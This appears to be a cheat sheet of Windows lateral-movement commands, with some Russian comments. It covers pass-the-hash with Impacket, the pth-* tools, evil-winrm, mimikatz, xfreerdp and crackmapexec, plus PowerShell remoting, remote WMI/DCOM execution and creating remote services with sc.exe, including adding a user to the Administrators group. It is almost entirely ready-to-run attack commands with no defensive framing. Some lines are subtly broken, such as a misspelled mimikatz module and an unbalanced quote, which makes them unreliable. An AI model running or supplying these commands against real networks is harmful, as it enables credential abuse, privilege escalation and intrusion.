 ## Pass the Hash:  
**Impacket and pth**:  
1) psexec.py -hashes LM:NTLM admin@target  
2) wmiexec.py -hashes :NTLM admin@target  
3) pth-winexe -U admin% //target cmd  
4) pth-wmic -U admin% //target "select Name from Win32_UserAccount"  
5) pth-wmis -U admin% //target "cmd.exe /c whoami > c:\out.txt"
6) pth-smbclient -U admin% //target/c$
7) pth-rpcclient -U admin% //target
8) pth-sqsh -U admin -S target
9) pth-curl http://target/exec?cmd=ipconfig
10) pth-net rpc group ADDMEM 'Administrators' username -S target -U domain/user

**Evil-winrm**:  
evil-winrm -i target -u admin -H "NT hash value"

**Windows (mimikatz)**:  
mimikatz.exe securlsa::pth /user:username /domain:domain /ntlm:NTLM_HASH /run:cmd  

**RDP**:  
xfreerdp /u:<user> /d:domain /pth:hash /v:ipAddr 

**CME**:  
crackmapexec smb <IP> -u username -H ":NT hash value"  

## PowerShell-Remoting: 

Enter-PSSession -ComputerName <computername> -Credentials <domain>\username  

Invoke-Command -ScriptBlock {whoami;hostname} -ComputerName <computername> -Credentials <domain>\username  

$session = New-PSSession -ComputerName <computer name> -verbose  
Enter-PSSession -Session $session -Verbose  
Invoke-Command -Session $session -ScriptBlock {whoami;hostname} -Verbose  

## REG.EXE:  
reg.exe; //Удаленный доступ к реестру с правами на запись на самом деле нам дает RCE.  
  
## DCERPC:  
Использует порты 135/TCP и 4915x/TCP, где 4915x — динамически назначаемые порты. Иногда могут использоваться порты из другого диапазона.  

1. wmiexec.py admin@target; //wmiexec.py -nooutput admin@target "mkdir c:\pwn".  
2. dcomexec.py admin@target; //dcomexec.py -nooutput admin@10.0.0.64 "mkdir c:\123".  
3. wmis -U admin //target "mkdir c:\pwn"/  
4. wmic.exe /user:username /password:password /node:target process call create '"c:\123".  
5. sc.exe; //Назначение инструмента — удаленное управление службами и драйверами. 
    - sc.exe \\target create testservice binPath= \path\to\prog start= auto  
    - sc.exe \\target start testservice  
